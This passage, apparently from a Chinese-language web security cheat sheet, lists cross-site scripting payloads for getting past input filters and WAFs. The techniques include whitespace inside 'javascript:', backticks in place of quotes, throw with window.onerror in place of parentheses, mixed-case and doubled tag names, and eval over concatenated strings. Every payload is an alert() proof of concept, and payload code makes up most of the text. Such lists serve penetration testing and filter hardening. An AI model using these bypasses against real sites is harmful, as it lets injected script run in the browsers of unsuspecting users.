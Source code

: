 ```html
<img/src="x"/onerror=alert(1);>
```

#### 空格回车Tab绕过

```php
主要和正则对抗
空格：<img src= "javascript:alert(9527);" >
TAB：< img src= "javasc :ript:alert(9528);" >
回车：< img src= "jav
ascript:
alert('xss');" >
```

#### 绕过引号过滤

如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号：

```html
<img src=x onerror=alert(`xss`);>
```

#### 绕过括号过滤

当括号被过滤的时候可以使用throw来绕过。throw 语句用于当错误发生时抛出一个错误。

```html
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<a onmouseover="javascript:window.onerror=alert;throw 1>
```

#### 绕过关键字过滤

#### 大小写绕过

```html
<sCRiPt>alert(1);</sCrIpT>
<ImG sRc=x onerRor=alert(1);>
```

#### 双写绕过

有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

```html
<scrscriptipt>alert(1);</scrscriptipt>
<imimgg srsrcc=x onerror=alert(1);>
```

#### 字符串拼接绕过

利用eval()函数

与PHP的eval()函数相同，JavaScript的eval()函数也可以计算 JavaScript 字符串，并把它作为脚本代码来执行。

```html
<img src="x" onerror="a='aler';b='t';c='(1)';eval(a+b+c)">
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
<!--在js中，我们可以用反引号代替单双引号-->
```
